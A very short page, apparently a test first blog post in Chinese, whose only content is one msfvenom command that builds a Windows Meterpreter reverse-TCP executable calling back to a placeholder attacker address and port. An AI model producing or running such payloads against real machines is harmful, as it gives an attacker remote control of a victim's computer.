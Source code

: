 第一个博客，仅作测试


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

张志峰  算你狠